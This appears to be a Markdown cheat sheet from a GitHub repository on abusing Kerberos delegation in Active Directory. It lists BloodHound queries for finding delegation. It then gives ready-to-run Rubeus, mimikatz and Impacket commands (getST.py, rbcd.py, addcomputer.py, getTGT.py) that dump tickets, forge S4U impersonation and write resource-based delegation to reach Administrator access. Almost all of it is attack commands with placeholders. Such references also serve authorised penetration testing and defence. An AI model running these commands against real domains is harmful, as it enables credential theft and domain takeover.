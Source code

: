# Kerberos Delegation

## Find delegation
- `findDelegation.py "<domain>"/"<user>":"<password>"`
- With BloodHound
  - Unconstrained
    - `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
    - `MATCH (c:User {unconstraineddelegation:true}) RETURN c`
  - Constrained
    - `MATCH p=((c:Base)-[:AllowedToDelegate]->(t:Computer)) RETURN p`
    - `MATCH p=shortestPath((u:User)-[*1..]->(c:Computer {name: "<MYTARGET.FQDN>"})) RETURN p`

## Unconstrained delegation >>> Kerberos TGT >>> PassTheTicket
- UAC: ADS_UF_TRUSTED_FOR_DELEGATION
  - Force connection  with coerce
    - Get tickets 
      - `mimikatz privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export`
      - `Rubeus.exe dump /service:krbtgt /nowrap`
      - `Rubeus.exe dump /luid:0xdeadbeef /nowrap`
      - `Rubeus.exe monitor /interval:5`

## Constrained delegation
- With protocol transition (any) UAC: TRUST_TO_AUTH_FOR_DELEGATION
  - Get TGT for user
    - Request S4u2self
      - Request S4u2proxy
  - `Rubeus.exe hash /password:<password>`
    - `Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:<AES 256 hash>`
      - `Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<admin_user> /msdsspn:<spn_constrained> /altservice:<altservice> /ptt`
        - Altservice HTTP/HOST/CIFS/LDAP  >>> Kerberos TGS
  - `getST.py -spn '<spn>/<target>' -impersonate Administrator -dc-ip '<dc_ip>' '<domain>/<user>:<password>' -altservice <altservice>`
    - Altservice HTTP/HOST/CIFS/LDAP >>> Kerberos TGS

- Without protocol transition (kerberos only) UAC: TRUSTED_FOR_DELEGATION
  - Constrain between Y and Z
    - Add computer X
      - Add RBCD : delegate from X to Y
        - s4u2self X (impersonate admin)
          - S4u2Proxy X (impersonate admin on spn/Y)
            - Forwardable TGS for Y
              - S4u2Proxy Y (impersonate admin on spn/Z) 
  - add computer account
    - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
  - RBCD With added computer account >>> Kerberos TGS
    - `rbcd.py -delegate-from '<rbcd_con>$' -delegate-to '<constrained>$' -dc-ip '<dc>' -action 'write' -hashes '<hash>' <domain>/<constrained>$`
      - `getST.py -spn host/<constrained> -impersonate Administrator --dc-ip <dc_ip> '<domain>/<rbcd_con>$:<rbcd_conpass>'`
        - `getST.py -spn <constrained_spn>/<target> -hashes '<hash>' '<domain>/<constrained>$' -impersonate Administrator --dc-ip <dc_ip> -additional-ticket <previous_ticket>`
  - Self RBCD @CVE@
    - Like RBCD without add computer

## Resource-Based Constrained Delegation
- add computer account
  - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
- RBCD With added computer account
  - `Rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>`
    - `Rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt` >>> Admin
  - `rbcd.py -delegate-from '<computer>$' -delegate-to '<target>$' -dc-ip '<dc>' -action 'write' <domain>/<user>:<password>`
    - `getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>` >>> Kerberos TGT >>> Admin

## S4U2self abuse
- Get machine account (X)'s TGT
  - Get a ST on X as user admin
- `getTGT.py -dc-ip "<dc_ip>" -hashes :"<machine_hash>" "<domain>"/"<machine>$"`
  - `getST.py -self -impersonate "<admin>" -altservice "cifs/<machine>" -k -no-pass -dc-ip "DomainController" "<domain>"/'<machine>$'` >>> Admin